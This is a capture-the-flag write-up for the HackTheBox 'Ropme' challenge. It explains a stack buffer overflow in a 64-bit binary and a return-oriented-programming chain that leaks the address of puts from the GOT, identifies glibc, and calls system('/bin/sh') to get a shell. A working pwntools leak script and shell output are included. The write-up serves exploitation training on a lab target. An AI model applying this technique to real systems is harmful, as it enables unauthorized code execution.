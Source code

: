 ```yaml
---
title: Ropme
description: Ropme challenge from HackTheBox write up.
---
```


# Ropme <a href='/assets/resources/HackTheBox/Ropme-resources.zip' title="Download resources"> :material-folder-zip:{:alt="Download resources"} </a>

## Enumeration

Let's start checking the security of the binary:

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Ropme]
└─$ checksec ropme
[*] '/home/kali/Desktop/HTB/Ropme/ropme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Even though PIE is disabled, ASLR is enabled to protect the addresses of libraries like `glibc`. Also NX is enabled so we can't execute shellcode in the stack. RELRO is partial, what means, we could modify the Global Offset Table (GOT) which allow the dynamic linker to load and link symbols. When a shared function is called, the GOT will point to the PLT where the dynamic linker is used to find the location of a certain function. Once the location is found, the address is saved in the GOT (Like a cache).

Time to spin up Ghidra and check the binary code:

```C
undefined8 main(void)

{
  char local_48 [64];
  
  puts("ROP me outside, how \'about dah?");
  fflush(stdout);
  fgets(local_48,500,stdin);
  return 0;
}
```

As you can see, the program is vulnerable to buffer overflow because the `fgets` function receives 500 characters but the buffer only has 64 characters. I couldn't find something inside the binary to get a flag so taking into account the binary security we saw earlier... I guess we could try to execute a `glibc` function to be able to execute a shell.

We need to use a technique called ROP (Return Oriented Programming). The idea is to overflow the return address in a stack frame with the address of functions or gadgets that are in memory and start jumping from one to another. The objective is to get information about the location of functions in `glibc`, we know that the base location of the library is random but the offsets between functions remain always the same so if we can leak the address of one single function we can get the rest. This way we can try to execute the `system` function with `/bin/sh` as parameter (In 32 bits the function parameters go in the stack but in 64 bits they are in registers).

## Address leak

### Getting some extra data

First we need to leak a function address, we can use the `puts` function to print the address to the screen but we will need to pass the address as a parameter.

In our case we have a 64 binary so we have to manipulate the `rdi` register (The first argument is stored there) to control the parameter of the `puts` function. To do this, we have to find gadgets in the binary to do this for us, using radare we can find what we need to move data from the stack to the `rdi` register:

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Ropme]
└─$ r2 ./ropme
[0x00400530]> /R | grep 'pop rdi'
  0x004006d3                 5f  pop rdi
```

Cool, now is time to get the parameter for our `puts` function, a `glibc` function address, and also the location of the `puts` call, we need to call it. Since we already have to check some information of the `puts` function we can also choose it to leak its address:

```bash
[0x00400530]> pdf@sym.imp.puts
            ; CALL XREF from main @ 0x40063a
┌ 6: int sym.imp.puts (const char *s);
│ bp: 0 (vars 0, args 0)
│ sp: 0 (vars 0, args 0)
│ rg: 0 (vars 0, args 0)
└           0x004004e0      ff25320b2000   jmp qword [reloc.puts]      ; [0x601018:8]=0x4004e6
```
From this output we need the location of the `puts` call: `0x004004e0` and also the GOT entry address: `0x601018`.

Finally we need to get the `main` function entrypoint because we want to force the program to restart once we leak the `puts` address:

```bash
[0x00400530]> afl | grep main
0x004004f0    1 6            sym.imp.__libc_start_main
0x00400626    1 71           main
```
The address for the `main` function is `0x00400626`

### Leak time!

I wrote this script to be able to leak the address we need:

```python
#! /usr/bin/env python3

from pwn import *
import argparse

# Prepare env

parser = argparse.ArgumentParser(description='Pwn Ropme')
parser.add_argument('--remote', '-r', action='store_true')
args = parser.parse_args()

context.binary = './ropme'
if(args.remote):
  process = remote('<MACHINE_IP>', <MACHINE_PORT>)
else:
  process = process('./ropme')

# Start exploit

with log.progress('Leaking puts@glibc...') as p:
  junk = b'A' * 72
  pop_rdi = p64(0x4006d3) # Return address overwrite to move whatever pointed by RSP
  got_put = p64(0x601018) # Parameter pointed by RSP (Top of the stack), is the puts entry in the GOT table 
  put_call = p64(0x4004e0) # Return of pop call to execute puts with our parameter
  main_call = p64(0x400626) # Return to main softly to continue exploting with the address we got
  payload = junk + pop_rdi + got_put + put_call + main_call

  process.recvline('ROP me outside, how \'about dah?')
  process.sendline(payload)
  data = process.recvline()

  leaked_puts_raw = data.strip().ljust(8, b'\x00') # Make sure we have a 64 bits address (Adding missing 0s)
  leaked_puts = hex(u64(leaked_puts_raw))
  p.success(leaked_puts)

process.close()
```

It is prepared to be able to launch the attack against the local and the remote binary (You need the binary locally to configure the exploit context). One possible output for the remote (Remember that ASLR is enabled):

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Ropme]
└─$ ./test.py --remote
[*] '/home/kali/Desktop/HTB/Ropme/ropme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to <MACHINE_IP> on port <MACHINE_PORT>: Done
[+] Leaking puts@glibc...: 0x7fd8602c0690
[*] Closed connection to <MACHINE_IP> port <MACHINE_PORT>
```


## Exploit time!

Now we need to know what is the `glibc` version of the server. Using [https://libc.rip/](https://libc.rip/){:target="_blank"}, we can enter the leaked memory address and the symbol's name: `puts` to get what we want:

```
libc6_2.23-0ubuntu11_amd64
libc6_2.23-0ubuntu6_amd64
libc6_2.23-0ubuntu9_amd64
libc6_2.23-0ubuntu10_amd64
libc6_2.23-0ubuntu5_amd64
libc6_2.23-0ubuntu4_amd64
libc6_2.23-0ubuntu7_amd64
libc6_2.13-0ubuntu4_amd64
libc6_2.13-0ubuntu15_amd64
```

Clicking in the versions we can check the base address of the `puts` symbol: `0x6f690`, also we can get the addreses for `system`: `0x45390` and the `/bin/sh` string as `str_bin_sh`: `0x18cd17` (I needed some try and error for this last one).

With all this information, we can add to our previous exploit a new section where, instead of executing the `puts` version to leak an address, we can execute the `system` function with `/bin/sh` as parameter. To get any `glibc` address, we have to first get the library offset: `puts_leaked_address - puts_base_address` and then we can just get any address doing: `function_base_address + offset`. I included as resource the complete Python script I used to exploit the binary: 

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Ropme]
└─$ ./pwn_ropme --remote
[*] '/home/kali/Desktop/HTB/Ropme/ropme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to <MACHINE_IP> on port <MACHINE_PORT>: Done
[+] Leaking puts@glibc...: 0x7f64d9eab690
[+] Getting a shell...: Done
[*] Switching to interactive mode
ls
flag.txt
ropme
spawn.sh
```

If you try my Python script to exploit the binary locally and it fails, you will need to check your system `glibc` version and modify the script a bit.
